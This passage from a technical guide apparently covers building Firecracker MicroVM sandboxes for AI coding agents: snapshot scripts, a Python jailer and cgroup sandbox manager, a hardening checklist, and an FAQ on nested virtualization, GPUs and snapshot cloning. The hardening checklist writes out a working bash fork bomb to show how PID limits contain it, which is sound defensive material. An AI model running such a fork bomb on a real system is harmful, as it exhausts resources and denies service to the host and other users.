# 4. Attach virtio-vsock device (guest_cid >= 3; CIDs 0, 1, 2 are reserved)
curl --fail --silent --show-error --unix-socket "${API_SOCK}" \
  -X PUT 'http://localhost/vsock' \
  -H 'Content-Type: application/json' \
  -d '{
    "vsock_id": "vsock0",
    "guest_cid": 3,
    "uds_path": "./v.sock"
  }'

# 5. Boot golden MicroVM and warm up heavy Python libraries in Guest RAM via vsock
curl --fail --silent --show-error --unix-socket "${API_SOCK}" \
  -X PUT 'http://localhost/actions' \
  -H 'Content-Type: application/json' \
  -d '{"action_type": "InstanceStart"}'

python3 - <<'PY'
import socket, time
for _ in range(100):
    try:
        with socket.socket(socket.AF_UNIX, socket.SOCK_STREAM) as s:
            s.connect("./v.sock")
            s.sendall(b"CONNECT 5000\n")
            if s.makefile("rb").readline().startswith(b"OK "):
                s.sendall(b'{"op":"warmup","imports":["json","numpy","pandas"]}\n')
                assert b'"status":"ok"' in s.makefile("rb").readline()
                break
    except OSError:
        time.sleep(0.05)
else:
    raise RuntimeError("Guest vsock daemon warmup timed out")
PY

# 6. Pause vCPUs and dump Full snapshot (vm.state + vm.mem)
curl --fail --silent --show-error --unix-socket "${API_SOCK}" \
  -X PATCH 'http://localhost/vm' \
  -H 'Content-Type: application/json' \
  -d '{"state": "Paused"}'

curl --fail --silent --show-error --unix-socket "${API_SOCK}" \
  -X PUT 'http://localhost/snapshot/create' \
  -H 'Content-Type: application/json' \
  -d '{
    "snapshot_type": "Full",
    "snapshot_path": "./vm.state",
    "mem_file_path": "./vm.mem"
  }'
```

> [!IMPORTANT] Relative Backing Paths Inside `jailer` Chroot
> Firecracker serializes the exact `path_on_host` of every block drive and `uds_path` of `vsock` inside `vm.state`. When restoring in production via `jailer`, `jailer` executes `chroot` into `/srv/jailer/firecracker/<vm_id>/root`, making that directory `/` from Firecracker's perspective. Always use clean relative paths (`./rootfs.ext4` and `./v.sock`) during golden snapshot creation so they resolve identically inside every `jailer` chroot root!

### 4.2 Stage 2: Production Python Async Sandbox Manager (`jailer` + Snapshot Restore + State Forking)

The `FirecrackerSandboxManager` implementation below encapsulates four production primitives:
1. **`jailer` Privilege Drop & cgroups v2 Hard Quotas**: Assigns each MicroVM a dedicated unprivileged `uid`/`gid` and enforces `cpu.max`, `memory.max`, `memory.swap.max=0`, and `pids.max=64` via `--cgroup-version 2`.
2. **`acquire_from_snapshot`**: Clones a writable CoW `rootfs.ext4` via `cp --reflink=always` in `~2 ms`, hard-links `vm.mem` into the chroot for zero-copy `MAP_PRIVATE` Page Cache sharing (or attaches a `Uffd` socket), and restores the VM in `< 15 ms`.
3. **`exec_via_vsock`**: Implements Firecracker's `CONNECT <port>\n` / `OK <host_port>\n` multiplexing handshake with hard wall-clock timeouts.
4. **`fork_checkpoint`**: Freezes a live parent MicroVM mid-task, snapshots its current memory and CoW disk state, and spawns $N$ parallel sibling MicroVMs for MCTS or RL rollouts.

```python
from __future__ import annotations

import asyncio
import json
import os
import shutil
import signal
import uuid
from dataclasses import dataclass
from pathlib import Path
from typing import Any, Literal


@dataclass
class SandboxHandle:
    vm_id: str
    chroot_root: Path
    api_sock: Path
    vsock_uds: Path
    process: asyncio.subprocess.Process
    uid: int


class FirecrackerSandboxManager:
    """Production async Firecracker MicroVM manager for Coding Agents and RL rollouts."""

    def __init__(
        self,
        jailer_bin: str = "/usr/bin/jailer",
        firecracker_bin: str = "/usr/bin/firecracker",
        chroot_base: Path = Path("/srv/jailer"),
        snapshot_store: Path = Path("/srv/fc-snapshots"),
        guest_agent_port: int = 5000,
    ) -> None:
        self.jailer_bin = jailer_bin
        self.firecracker_bin = firecracker_bin
        self.chroot_base = chroot_base
        self.snapshot_store = snapshot_store
        self.guest_agent_port = guest_agent_port
        self._uid_cursor = 200000

    def _next_isolated_uid(self) -> int:
        self._uid_cursor += 1
        return self._uid_cursor

    async def _fc_api_request(
        self,
        api_sock: Path,
        method: str,
        endpoint: str,
        payload: dict[str, Any],
    ) -> None:
        """Send a minimal async HTTP/1.1 request directly over Firecracker's Unix socket."""
        body = json.dumps(payload).encode("utf-8")
        request_bytes = (
            f"{method} {endpoint} HTTP/1.1\r\n"
            f"Host: localhost\r\n"
            f"Accept: application/json\r\n"
            f"Content-Type: application/json\r\n"
            f"Content-Length: {len(body)}\r\n"
            f"Connection: close\r\n\r\n"
        ).encode("ascii") + body

        reader, writer = await asyncio.open_unix_connection(str(api_sock))
        try:
            writer.write(request_bytes)
            await writer.drain()
            status_line = (await reader.readline()).decode("ascii", errors="replace")
            raw_resp = await reader.read()
            if not (" 200 " in status_line or " 204 " in status_line):
                raise RuntimeError(
                    f"Firecracker API {method} {endpoint} failed ({status_line.strip()}): "
                    f"{raw_resp.decode('utf-8', errors='replace')}"
                )
        finally:
            writer.close()
            await writer.wait_closed()

    async def acquire_from_snapshot(
        self,
        checkpoint_id: str = "base-v1",
        mem_backend_mode: Literal["File", "Uffd"] = "File",
        uffd_host_sock: Path | None = None,
        cpu_quota_us: int = 200_000,
        mem_limit_bytes: int = 2_415_919_104,  # 2.25 GiB host cgroup ceiling
    ) -> SandboxHandle:
        """Restore a hardware-isolated MicroVM from a checkpoint in ~10 ms."""
        vm_id = f"sbx-{uuid.uuid4().hex[:12]}"
        uid = self._next_isolated_uid()
        chroot_root = self.chroot_base / "firecracker" / vm_id / "root"
        chroot_root.mkdir(parents=True, exist_ok=True)

        ckpt_dir = self.snapshot_store / checkpoint_id
        # 1. Instantaneous extent-level CoW clone of rootfs (~1-3 ms, zero block copy)
        dst_rootfs = chroot_root / "rootfs.ext4"
        proc_cp = await asyncio.create_subprocess_exec(
            "cp",
            "--reflink=always",
            str(ckpt_dir / "rootfs.ext4"),
            str(dst_rootfs),
        )
        if await proc_cp.wait() != 0:
            raise RuntimeError("Reflink CoW copy failed; ensure XFS reflink=1 or Btrfs")
        os.chown(dst_rootfs, uid, uid)

        # 2. Hard-link read-only vm.state & vm.mem into chroot for shared Page Cache CoW
        os.link(ckpt_dir / "vm.state", chroot_root / "vm.state")
        if mem_backend_mode == "File":
            os.link(ckpt_dir / "vm.mem", chroot_root / "vm.mem")
            mem_backend_cfg = {"backend_type": "File", "backend_path": "./vm.mem"}
        else:
            if uffd_host_sock is None:
                raise ValueError("uffd_host_sock is required when mem_backend_mode='Uffd'")
            os.link(uffd_host_sock, chroot_root / "uffd.sock")
            mem_backend_cfg = {"backend_type": "Uffd", "backend_path": "./uffd.sock"}

        os.chown(chroot_root, uid, uid)
        (chroot_root / "run").mkdir(exist_ok=True)
        os.chown(chroot_root / "run", uid, uid)
        api_sock = chroot_root / "run" / "api.sock"

        # 3. Spawn Firecracker inside jailer with chroot, UID drop, and cgroups v2 limits
        jailer_cmd = [
            self.jailer_bin,
            "--id", vm_id,
            "--exec-file", self.firecracker_bin,
            "--uid", str(uid),
            "--gid", str(uid),
            "--chroot-base-dir", str(self.chroot_base),
            "--cgroup-version", "2",
            "--cgroup", f"cpu.max={cpu_quota_us} 100000",
            "--cgroup", f"memory.max={mem_limit_bytes}",
            "--cgroup", "memory.swap.max=0",
            "--cgroup", "pids.max=64",
            "--",
            "--api-sock", "/run/api.sock",
        ]
        proc = await asyncio.create_subprocess_exec(
            *jailer_cmd,
            stdout=asyncio.subprocess.PIPE,
            stderr=asyncio.subprocess.PIPE,
        )

        # Wait for API socket creation inside jailer chroot (< 3 ms typical)
        for _ in range(200):
            if api_sock.exists():
                break
            await asyncio.sleep(0.002)
        else:
            proc.kill()
            raise TimeoutError(f"Firecracker API socket timed out for {vm_id}")

        # 4. Load snapshot and immediately resume guest vCPUs
        await self._fc_api_request(
            api_sock,
            "PUT",
            "/snapshot/load",
            {
                "snapshot_path": "./vm.state",
                "mem_backend": mem_backend_cfg,
                "enable_diff_snapshots": True,
                "resume_vm": True,
            },
        )

        return SandboxHandle(
            vm_id=vm_id,
            chroot_root=chroot_root,
            api_sock=api_sock,
            vsock_uds=chroot_root / "v.sock",
            process=proc,
            uid=uid,
        )

    async def exec_via_vsock(
        self,
        handle: SandboxHandle,
        command: list[str],
        phantom_env: dict[str, str] | None = None,
        timeout_sec: float = 30.0,
    ) -> dict[str, Any]:
        """Execute a command inside the guest over virtio-vsock with hard wall-clock timeout."""
        async def _rpc() -> dict[str, Any]:
            reader, writer = await asyncio.open_unix_connection(str(handle.vsock_uds))
            try:
                # Firecracker host-to-guest vsock handshake protocol
                writer.write(f"CONNECT {self.guest_agent_port}\n".encode("ascii"))
                await writer.drain()
                handshake = await reader.readline()
                if not handshake.startswith(b"OK "):
                    raise ConnectionError(f"vsock handshake failed: {handshake!r}")

                req = {
                    "op": "exec",
                    "cmd": command,
                    # Inject only non-sensitive Phantom Tokens, never real secrets
                    "env": phantom_env or {},
                }
                writer.write(json.dumps(req).encode("utf-8") + b"\n")
                await writer.drain()

                resp_line = await reader.readline()
                return json.loads(resp_line.decode("utf-8"))
            finally:
                writer.close()
                await writer.wait_closed()

        return await asyncio.wait_for(_rpc(), timeout=timeout_sec)

    async def fork_checkpoint(
        self,
        parent: SandboxHandle,
        branch_count: int = 4,
    ) -> list[SandboxHandle]:
        """Freeze a live parent VM, capture a checkpoint, and fork N parallel sibling VMs."""
        fork_ckpt_id = f"fork-{parent.vm_id}-{uuid.uuid4().hex[:6]}"
        fork_dir = self.snapshot_store / fork_ckpt_id
        fork_dir.mkdir(parents=True, exist_ok=True)

        # 1. Pause parent vCPUs to guarantee memory and Ext4 block consistency
        await self._fc_api_request(parent.api_sock, "PATCH", "/vm", {"state": "Paused"})
        try:
            await self._fc_api_request(
                parent.api_sock,
                "PUT",
                "/snapshot/create",
                {
                    "snapshot_type": "Full",
                    "snapshot_path": "./fork.state",
                    "mem_file_path": "./fork.mem",
                },
            )
            shutil.move(str(parent.chroot_root / "fork.state"), str(fork_dir / "vm.state"))
            shutil.move(str(parent.chroot_root / "fork.mem"), str(fork_dir / "vm.mem"))
            proc_cp = await asyncio.create_subprocess_exec(
                "cp",
                "--reflink=always",
                str(parent.chroot_root / "rootfs.ext4"),
                str(fork_dir / "rootfs.ext4"),
            )
            await proc_cp.wait()
        finally:
            # Resume parent MicroVM execution
            await self._fc_api_request(parent.api_sock, "PATCH", "/vm", {"state": "Resumed"})

        # 2. Spawn all N sibling branches concurrently (sharing fork.mem Page Cache)
        return list(
            await asyncio.gather(
                *[self.acquire_from_snapshot(checkpoint_id=fork_ckpt_id) for _ in range(branch_count)]
            )
        )

    async def destroy(self, handle: SandboxHandle) -> None:
        """Force-kill the MicroVM process and purge its chroot jail and CoW disk extents."""
        if handle.process.returncode is None:
            try:
                handle.process.send_signal(signal.SIGKILL)
            except ProcessLookupError:
                pass
            await handle.process.wait()

        jail_dir = self.chroot_base / "firecracker" / handle.vm_id
        shutil.rmtree(jail_dir, ignore_errors=True)
```

### 4.3 Production Defense-in-Depth Hardening Checklist

Before exposing this scheduler to multi-tenant production traffic, verify four host-level safeguards:
- **Dual-Layer Fork-Bomb Immunity**: A `:(){ :|:& };:` fork bomb inside the guest exhausts only the guest kernel's internal PID table within its `2 GiB` slice, leaving the host scheduler untouched; meanwhile, `pids.max=64` on the `jailer` cgroup caps host-side VMM worker threads even under a hypothetical VMM compromise.
- **Swap Disabling (`memory.swap.max=0`)**: Always disable host swap for MicroVM cgroups so runaway memory allocations trigger a clean, deterministic OOM kill inside the isolated cgroup rather than thrashing host NVMe I/O across neighboring VMs.
- **VirtIO Block `rate_limiter` Enforcement**: Always configure both `bandwidth` (e.g., `100 MiB/s`) and `ops` (e.g., `5,000 IOPS`) token buckets on `/drives/rootfs` so adversarial `dd` or `fsync` loops cannot saturate physical NVMe submission queues.
- **Out-of-Band Lease Reaper Daemon**: Never rely solely on Python `finally` blocks for cleanup; run an independent host reaper daemon that sweeps expired TTL leases, kills orphaned `firecracker` PIDs, deletes stale TAP devices, and reclaims unreferenced `fork-*` checkpoints.

---

## Frequently Asked Questions (FAQ)

### Q1: Do we have to buy expensive bare-metal (`.metal`) cloud instances to run Firecracker, or is Nested Virtualization viable in production?

Bare metal is not strictly required everywhere—it depends on tail-latency budgets and cloud instance generations. Firecracker requires `/dev/kvm` backed by Intel VT-x (`vmx`) or AMD-V (`svm`). On **Google Cloud (GCP)**, standard VM families (`N2`, `C3`, etc.) natively support nested KVM via `--enable-nested-virtualization`. On **AWS EC2**, traditional virtualized instances hid VT-x and required `.metal` instances (`c5.metal`, `m6i.metal`), though newer generations (such as 8th-generation Intel `c8i`, `m8i`, and `r8i` instances supporting nested virtualization) also expose nested KVM without renting full bare-metal servers. Architecturally, however, nested virtualization (`L0 Host -> L1 Cloud VM -> L2 Firecracker`) multiplies `VM-Exit` trap overhead on EPT page faults and VirtIO interrupts, typically adding `20%–40%` latency to high-concurrency snapshot restores. Use nested virtualization for dev/staging and moderate-concurrency workloads, and bare-metal nodes for high-density RL rollout clusters and strict sub-15ms SLAs.

### Q2: Can Firecracker pass through NVIDIA GPUs (`VFIO`) when an Agent needs to compile and benchmark CUDA or Triton kernels?

**No—not natively.** By design, Firecracker omits **PCI / PCIe bus emulation** and relies exclusively on minimalist `virtio-mmio` devices to keep its codebase tiny and boot times under `125 ms`. Without PCIe root ports and IOMMU `vfio-pci` integration, physical GPUs or MIG slices cannot be attached directly to a Firecracker MicroVM. Production AI platforms solve this in one of two ways: (1) **Disaggregated CPU Sandbox + Remote GPU Worker**, where the Coding Agent edits code, resolves dependencies, and runs CPU tests inside a fast Firecracker sandbox while submitting compiled CUDA kernels over `vsock` RPC to a locked-down GPU execution pool; or (2) switching GPU-attached sandboxes to **Cloud Hypervisor** (paired with Kata Containers `kata-clh`), which shares the same Rust `rust-vmm` foundations as Firecracker while providing full PCIe topology and `vfio-pci` GPU passthrough.

### Q3: When cloning 100 sibling MicroVMs from a single snapshot, how do we prevent duplicate UUIDs, TLS nonce collisions, and frozen system clocks?

Snapshot cloning creates an identical byte-for-byte copy of guest RAM—meaning the Linux kernel's CSPRNG entropy pool and user-space PRNG states (Python `random`, OpenSSL state) start completely identical across all 100 clones, while the guest wall clock wakes up frozen at the timestamp when the snapshot was taken hours or days ago! Left unaddressed, clones generate colliding UUIDv4 identifiers, predictable TLS session keys, and broken JWT/TLS certificate timestamp checks. A complete fix requires three steps: (1) Run **Firecracker v1.8+** with a **Linux 5.18+** (ACPI) or **6.10+** (DeviceTree) guest kernel to enable the **`VMGenID` (Virtual Machine Generation ID)** device—upon every snapshot restore, Firecracker mutates a 128-bit generation ID and injects an interrupt that forces the Linux kernel to immediately reseed its CSPRNG entropy pool, supplemented by `virtio-rng` and CPU `RDRAND`; (2) ensure guest user-space daemons invoke OS `getrandom()` (`os.urandom`) rather than caching pre-fork user-space PRNG seeds; and (3) boot with `clocksource=kvm-clock` so KVM updates paravirtualized time offsets upon resume, plus pass the host's nanosecond UTC timestamp in the first `vsock` handshake payload so `guest-agent` steps the guest wall clock before running user code.

### Q4: How should we choose between the `File` (`MAP_PRIVATE`) and `Uffd` (`userfaultfd`) memory backends in `/snapshot/load`, and how do we prevent remote page-fault tail latency spikes?

Choose based on **snapshot locality and cardinality**. For a small set of popular base images (e.g., standard Python 3.12 data-science or SWE-bench environments), pre-distribute `vm.mem` onto local NVMe drives across your fleet and use `"backend_type": "File"`—the host kernel handles minor page faults entirely in Ring 0 with minimal latency. Conversely, when supporting thousands of user-customized repository checkpoints that cannot fit on every node's local disk, use `"backend_type": "Uffd"` backed by tiered remote storage. To eliminate synchronous network stalls when a vCPU faults on cold pages, production UFFD handlers record the page-fault offset trace during the first `500 ms` of a checkpoint's execution to build a **Working-Set Bitmap**: as soon as `/snapshot/load` starts on a new host, background async workers proactively stream and `UFFDIO_COPY` those `100–200 MiB` hot working-set chunks before the guest vCPU even faults on them, cutting synchronous stall events by over `85%`.
